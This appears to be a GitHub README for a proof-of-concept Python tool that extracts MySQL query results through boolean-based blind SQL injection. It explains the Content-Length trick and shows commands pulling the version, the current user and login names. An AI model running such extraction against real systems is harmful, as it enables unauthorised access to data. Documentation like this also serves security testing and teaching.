 # mysql_bb
Boolean-based blind SQL injection Proof of Concept for MySQL.

This script attempts to retrieve result of given SQL query by making boolean-based blind injection into supplied HTTP GET URI. Basic concept is the assumption that True and False answers has different Content-Length header and True>False.
## Usage example
Be sure you have no errors in SQL syntax, otherwise it may lead to false negative results. No ending semicolon is needed since given query will be inserted as subquery into substring() MySQL function.
```bash
python3 mysql_bb_poc.py "http://localhost?param=" "select version()"
5.5.47-0+deb8u1
(+) done!
python3 mysql_bb_poc.py "http://localhost?param=" "select user()"
root@localhost
(+) done!
python3 mysql_bb_poc.py "http://localhost?param=" "select login from users"
admin
(+) done!
```
